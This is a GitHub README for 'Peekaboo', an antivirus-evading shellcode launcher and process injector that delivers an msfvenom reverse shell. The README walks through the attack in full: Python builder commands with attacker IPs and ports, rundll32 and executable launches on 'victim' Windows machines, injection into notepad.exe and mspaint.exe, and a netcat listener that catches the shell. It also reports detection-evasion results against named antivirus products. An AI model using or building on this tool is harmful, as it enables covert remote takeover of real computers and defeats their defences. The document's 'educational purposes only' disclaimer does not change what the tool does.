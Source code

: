 # Peekaboo

Simple undetectable shellcode and code injector launcher example. Inspired by RTO malware development course.

## Main logic

XOR encryption and decryption for functions call and main payload - `msfvenom` reverse shell as example.

## Usage
## 1. DLL
### on attacker machine

check your IP:
```bash
ip a
```

![attacker machine IP](./screenshots/1.png?raw=true)

run python script with flags:
```bash
python3 peekaboo.py -l 192.168.1.64 -p 4444
```

![run python script](./screenshots/2.png?raw=true)

### then on victim machine (windows 10 x64):
run on powershell or cmd promt:
```cmd
rundll32 .\peekaboo.dll, fcPxxUxbQWtknoIZQxehCd
```

![run on victim machine](./screenshots/3.png?raw=true)

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/4.png?raw=true)

example:
![final](./screenshots/5.png?raw=true)

## 2.Injector
### on attacker machine:
check attacker ip:
```bash
ip a
```

![check IP](./screenshots/6.png?raw=true)

run python script on linux (for example process `notepad.exe`):
```bash
python3 peekaboo-inj.py -l 10.9.1.6 -p 4444 -e notepad.exe
```

![encrypting](./screenshots/7.png?raw=true)

compile in VS - windows machine x64:
```cmd
.\compile-inj.bat
```

![compile in attacker windows x64](./screenshots/8.png?raw=true)

### then on victim machine (windows x64):
```cmd
.\peekaboo.exe
```

or click

![run on victim machine](./screenshots/9.png?raw=true)

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/10.png?raw=true)

## 3. UPDATE: Compile injector on kali linux
run python script on linux (for example process `notepad.exe`):
```bash
python3 peekaboo-inj.py -l 10.10.88.57 -p 4444 -e notepad.exe
```

![encrypting and compile](./screenshots/12.png?raw=true)

### then on victim machine (windows 10 x64):
```cmd
.\peekaboo.exe
```

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/13.png?raw=true)

## 4. NT API injector
run python script on linux (for example process `mspaint.exe`):
```bash
python3 peekaboo_nt.py -l 192.168.57.100 -p 4445 -e mspaint.exe -m console
```

![enc and compile nt](./screenshots/15.png?raw=true)

### then on victim machine (windows 10 x64):
```cmd
.\peekaboo.exe
```

![run malware](./screenshots/14.png?raw=true)

## Issues.
Tested on:
1. Attacker machines: Kali linux 2020.1, Windows 10 x64
2. Victim machine: Windows 7 x64, Windows 10 x64
3. Payload: windows x64 reverse shell from msfvenom
4. AV Engines: Kaspersky, Windows Defender, Norton Antivirus Plus

# Virus Total result:
02 september 2021

![virustotal](./screenshots/11.png?raw=true)

[https://www.virustotal.com/gui/file/c930b9aeab693d36c68e7bcf6353c7515b8fffc8f9a9233e49e90da49ab5d470/detection](https://www.virustotal.com/gui/file/c930b9aeab693d36c68e7bcf6353c7515b8fffc8f9a9233e49e90da49ab5d470/detection)

30 december 2021 (NT API injector)    

![virtustotal 2](./screenshots/16.png?raw=true)    

[https://www.virustotal.com/gui/file/743f50e92c6ef48d6514e0ce2a255165f83afb1ae66deefd68dac50d80748e55/detection](https://www.virustotal.com/gui/file/743f50e92c6ef48d6514e0ce2a255165f83afb1ae66deefd68dac50d80748e55/detection)    

## antiscan.me result:

11 january 2022 (NT API injector)    

![antiscan](./screenshots/antiscan.png?raw=true)    

[https://antiscan.me/scan/new/result?id=rQVfQhoFYgH9](https://antiscan.me/scan/new/result?id=rQVfQhoFYgH9)    

## TODO
- [x] Compile injector in Kali linux
- [x] XOR + AES [aes branch](https://github.com/cocomelonc/peekaboo/tree/aes)
- [ ] Implement custom variations of `GetProcAddress` and `GetModuleHandle` functions
- [ ] Replace msfvenom shell to custom undetectable

## Attention
This tool is a Proof of Concept and is for Educational Purposes Only!!! Author takes no responsibility of any damage you cause

## License
[MIT](https://choosealicense.com/licenses/mit/)
